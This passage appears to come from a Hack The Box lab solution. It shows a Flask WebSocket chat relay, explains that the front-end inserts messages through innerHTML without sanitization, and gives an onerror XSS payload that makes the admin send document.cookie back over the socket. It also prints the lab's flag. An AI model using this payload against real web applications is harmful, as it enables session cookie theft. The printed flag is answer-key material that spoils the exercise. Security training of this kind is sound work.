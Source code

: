 ```python
@sock.route('/userws')
def userws(sock):
    while True:
        if not to_user.empty():
            msg = to_user.get()
            sock.send(msg)

        msg = sock.receive(timeout=1)
        if msg:
            to_admin.put(msg)

@sock.route('/adminws')
def adminws(sock):
    while True:
        if not to_admin.empty():
            msg = to_admin.get()
            sock.send(msg)

        msg = sock.receive(timeout=1)
        if msg:
            to_user.put(msg)
```

When analyzing the front-end (inspecting the root web page's source), students will notice that it is sending messages that a user enters to the `/userws` endpoint (lines 43-67), therefore delivering them to the admin(s). The front-end passes the chat messages received from the WebSocket connection to the `log` function, which is set via the `addEventListener` call on the `socket` variable. The `log` function adds the chat message to the DOM via the `innerHTML` property without any sanitization, therefore opening avenues for XSS attacks:

Code: html

```html
document.getElementById('chat').innerHTML += \`<div class="chat-message clearfix"><div class="chat-message-content clearfix"><span class="chat-time">${time}</span><h5>${user}</h5><p>${msg}</p></div></div><hr>\`;
```

![[HTB Solutions/CWEE/z. images/689888b46baff36aea1fa8b651e90328_MD5.jpg]]

Students need to use an `event handler` XSS payload (the [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#common-payloads) repository contains plenty of them) to make the admin send their cookie using the [document.cookie](https://developer.mozilla.org/en-US/docs/Web/API/Document/cookie) property via the WebSocket connection. After sending the XSS payload, students will attain the flag `HTB{2ca1d602f8a1a8439fd6a832a96e4f89}` in a response message from the admin:

Code: html

```html
<img src="x" onerror="socket.send(document.cookie)">
```

![[HTB Solutions/CWEE/z. images/6a3020bdd37a610426e213ab4c13a19a_MD5.jpg]]
